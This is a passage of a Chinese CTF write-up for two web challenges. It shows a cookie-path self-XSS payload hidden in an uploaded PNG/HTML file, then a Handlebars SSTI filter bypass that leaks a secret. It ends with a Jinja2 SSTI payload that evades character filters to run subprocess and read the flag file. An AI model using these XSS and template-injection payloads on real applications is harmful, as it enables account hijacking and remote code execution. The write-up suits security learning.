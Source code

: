 > `/%2f/` 會在 nginx 那邊被解讀為 `/`，但是瀏覽器是把它視為正常的 path

所以就用之前解 Imgura 的方法，在 png 後面接上一些 html:

```html
<script>
document.cookie = 'session=eyJwb3dfcHJlZml4IjpudWxsLCJ1c2VybmFtZSI6InBla29taWtvIn0.YYSezg.72uO38n2SN7G4m0ZCLrGt711dOo; domain=chal.h4ck3r.quest; path=/%2f/'
document.cookie = 'session=eyJwb3dfcHJlZml4IjpudWxsLCJ1c2VybmFtZSI6InBla29taWtvIn0.YYSezg.72uO38n2SN7G4m0ZCLrGt711dOo; domain=chal.h4ck3r.quest; path=/export'
location.href = 'https://profile.chal.h4ck3r.quest/%2f/'
</script>
```

然後上傳拿到 path:

```zsh
curl 'https://imgura.chal.h4ck3r.quest/dev_test_page/upload.php' -F'image_file=@test.png.html' -v
```

之後再讓 bot 去瀏覽 `https://imgura.chal.h4ck3r.quest/dev_test_page/images/4031953e_test.png.html` 之類的頁面就能 XSS 拿 flag。

FLAG: `FLAG{W0W_you_expl0ited_th3_s3lf_xss}`

# Double SSTI

這題可以在 `/source` 看到原始碼，關鍵部分如下:

```javascript
app.get("/welcome", (request, response) => {
    const name = request.query.name ?? 'Guest';
    if (name.includes('secret')) {
        response.send("Hacker!");
        return;
    }
    const template = handlebars.compile(`<h1>Hello ${name}! SSTI me plz.</h1>`);
    response.send(template({ name, secret }));
})
```

可以知道說有個 SSTI，目標是要拿到 `secret` 的值才能進第二階段。第一個想到的做法是直接 `{{secret}}` 去讀 `secret`，但是這個會被它的 filter 擋住。

這邊我有找到兩個繞法，第一個是用 `?name[]={{secret}}`，這樣 `request.query.name` 會是一個只有一個元素的 array 能通過 filter 的檢查，而它在轉換成字串的時候也能成功達成想要的目標。

另一個方法是利用 Handlebars 本身的功能，可以用 `{{#each this}}` 去得到目前 `this` 物件的所有值:

```
{{#each this}}{{@key}}={{this}},{{/each}}
```

拿到 `secret == "77777me0w_me0w_s3cr3t77777"` 可以到 `http://h4ck3r.quest:10005/2nd_stage_77777me0w_me0w_s3cr3t77777` 對 Jinja2 (Flask) 做 SSTI，不過這次可以發現它有幾個 filter 包括 `.` `[` `]` 和 `__`，前面三個可以很容易的用 `|` 和 `attr` 去繞，後面的就單純用字串拚接即可:

```python
{{g|attr('pop')|attr('_'*2+'globals'+'_'*2)|attr('get')('_'*2+'builtins'+'_'*2)|attr('get')('_'*2+'import'+'_'*2)('subprocess')|attr('check_output')(('cat','/y000_i_am_za_fl4g'))}}
```
